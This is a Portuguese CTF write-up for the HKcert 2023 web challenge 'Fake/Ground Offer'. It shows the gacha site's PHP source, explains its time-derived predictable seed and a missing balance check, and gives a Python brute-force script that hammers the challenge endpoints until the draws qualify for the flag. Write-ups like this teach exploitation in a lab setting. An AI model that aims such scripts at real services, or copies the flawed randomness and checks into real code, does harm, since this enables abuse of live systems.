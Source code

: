 # ctf_fake-ground

Challenge da categoria Web do CTF HKcert 2023

![IMG1](https://github.com/dahiwas/ctf_fake-ground/blob/main/Imagens/IMG1.png)

O link que o chall nos fornecia nos direcionava para:

![IMG2](https://github.com/dahiwas/ctf_fake-ground/blob/main/Imagens/IMG2.png)

Basicamente o challenge dizia para conseguirmos sumonar/tirar 20 tickets UR (Ultra Rare) SR (Super Rare) de um sistema gacha.

Tínhamos dois botões para cumprir esse feito, Summon 1 ou Summon 10 que faziam as seguintes requisições:
![IMG3](https://github.com/dahiwas/ctf_fake-ground/blob/main/Imagens/IMG3.png)

Dessa forma, respectivamente, sumonávamos 1 aleatório ou então 10 de uma vez só.

Além disso, o desafio nos fornecia o código fonte do site:
```
<?php 
session_start();

if(isset($_GET["-s"])){
    show_source(__FILE__);
    exit();
}

include "secret.php";

if(!isset($_SESSION["balance"])){
    $_SESSION["balance"] = 20;
    $_SESSION["inventory"] = Array("UR" => 0, "SSR" => 0, "SR" => 0, "R" => 0, "N" => 0);
}

if(isset($_GET["sellacc"])){
    if($_SESSION["inventory"]["UR"]+$_SESSION["inventory"]["SSR"]>=20){
        exit("$flag");
    }else{
        exit('$flag');
    }
}

$gacha_result = "";
$seed = (time() - $pin) % 3600 + 1;  //cannot use zero as seed

if(isset($_GET["gacha1"])){
    if($_SESSION["balance"] < 1){
        $gacha_result = "Insufficient Summon Tickets!";
    }else{
        $_SESSION["balance"] -= 1;
        $gacha_result = "You got ".implode(", ",gacha(1,$seed));
    }
}elseif(isset($_GET["gacha10"])){
    if($_SESSION["balance"] < 1){
        $gacha_result = "Insufficient Summon Tickets!";
    }else{
        $_SESSION["balance"] -= 10;
        $gacha_result = "You got ".implode(", ",gacha(10,$seed));
    }
}

//Ultra Secure Seedable Random (USSR) gacha
function gacha($n,$s){
    $out = [];

    for($i=1;$i<=$n;$i++){
        $x = sin($i*$s);
        $r = $x-floor($x);
        $out[] = lookup($r);
    }
    return $out;
}

function lookup($r){
    if($r <= 0.001){
        $_SESSION["inventory"]["UR"] += 1;
        return "UR";
    }elseif($r <= 0.004){
        $_SESSION["inventory"]["SSR"] += 1;
        return "SSR";
    }elseif($r <= 0.009){
        $_SESSION["inventory"]["SR"] += 1;
        return "SR";
    }elseif($r <= 0.016){
        $_SESSION["inventory"]["R"] += 1;
        return "R";
    }else{
        $_SESSION["inventory"]["N"] += 1;
        return "N";
    }
}
?>
<html>
<head>
    <title>Fake/Ground Offer</title>
</head>
<body>
    <!-- This is the best frontend we can provide given the budget provided -->
    <h1>Fake/Ground Offer</h1>
    <p>Welcome, Master. Your ID is <?=session_id();?></p>
    <p>Current Balance: <?=$_SESSION["balance"];?> Summon Ticket(s)</p>
    <p>Current Inventory: <?php print_r($_SESSION["inventory"]);?></p>
    <form><input type=submit name="gacha1" value="Summon 1"></form>
    <form><input type=submit name="gacha10" value="Summon 10"></form>
    <h2><?=$gacha_result;?></h2>
    <hr /><p><a href="?-s">Show Source</a></p>
</body>
</html>
```
Vale ressaltar que receberíamos nossa flag no momento em que enviassemos uma requisição, ao possuirmos no inventário os 20 tickets requeridos:
```
if(isset($_GET["sellacc"])){
    if($_SESSION["inventory"]["UR"]+$_SESSION["inventory"]["SSR"]>=20){
        exit("$flag");
    }else{
        exit('$flag');
    }
}
```
E também, a seed que gerava a aleatoriedade era dada pelo tempo:
```
$seed = (time() - $pin) % 3600 + 1;  //cannot use zero as seed
```
A partir daqui tínhamos uma ideia de que poderia ser resolvido por força bruta [brute force], e para ajudar, vimos que o código base do site, não fazia uma verificação adequada caso apertássemos no GACHA 10:
```
if(isset($_GET["gacha1"])){
    if($_SESSION["balance"] < 1){
        $gacha_result = "Insufficient Summon Tickets!";
    }else{
        $_SESSION["balance"] -= 1;
        $gacha_result = "You got ".implode(", ",gacha(1,$seed));
    }
}elseif(isset($_GET["gacha10"])){
    if($_SESSION["balance"] < 1){
        $gacha_result = "Insufficient Summon Tickets!";
    }else{
        $_SESSION["balance"] -= 10;
        $gacha_result = "You got ".implode(", ",gacha(10,$seed));
    }
}
```
Ou seja, poderiamos, por tentativa, realizar 29 retiradas, ao invés de 20.

Então utilizamos o algoritmo:
Algoritmo de BruteForce de refêrencia: 
https://siunam321.github.io/ctf/HKCERT-CTF-2023/web/Fake-Ground-Offer/
```
import asyncio
import aiohttp
from bs4 import BeautifulSoup
from time import sleep
import re

async def main():
    while True:
        # brute force it with 0.3 seconds delay, 
        # so we won't beat the server to death
        sleep(0.3)
        async with aiohttp.ClientSession() as sess:
            for _ in range(9):
                resp = await sess.get(URL_GACHA1)
                response_body = await resp.text()
            for _ in range(2):
                resp = await sess.get(URL_GACHA10)
                response_body = await resp.text()

            soup = BeautifulSoup(response_body, 'html.parser')
            pTags = soup.find_all('p')
            sessionId = pTags[0].text
            inventory = pTags[2].text

            sessionIdMatch = re.search(r'Your ID is ([a-fA-F0-9]+)', sessionId)
            urMatch = re.search(r'\[UR\] => (\d+)', inventory)
            ssrMatch = re.search(r'\[SSR\] => (\d+)', inventory)

            idValue = sessionIdMatch.group(1)
            urValue = int(urMatch.group(1))
            ssrValue = int(ssrMatch.group(1))

            urSSRValue = urValue + ssrValue
            print(f'[*] Trying... Session ID: {idValue}, UR + SSR value: {urSSRValue}', end='\r')
            if urSSRValue >= 20:
                print('\n[+] We got UR + SSR >= 20!!')
                print(f'[+] Session ID: {idValue}')
                print(f'[+] UR value: {urValue}')
                print(f'[+] SSR value: {ssrValue}')
                exit(0)

if __name__ == '__main__':
    URL_GACHA10 = 'http://chal-a.hkcert23.pwnable.hk:28137/?gacha10=blah'
    URL_GACHA1 = 'http://chal-a.hkcert23.pwnable.hk:28137/?gacha1=blah'

    asyncio.run(main())
```
Depois de algum tempo deixando o código rodar:

![IMG4](https://github.com/dahiwas/ctf_fake-ground/blob/main/Imagens/IMG4.png)

Chegamos a flag:

hkcert23{USSR_stands_for_Union_of_Sov...oh_no_we_cannot_talk_about_that_in_here}
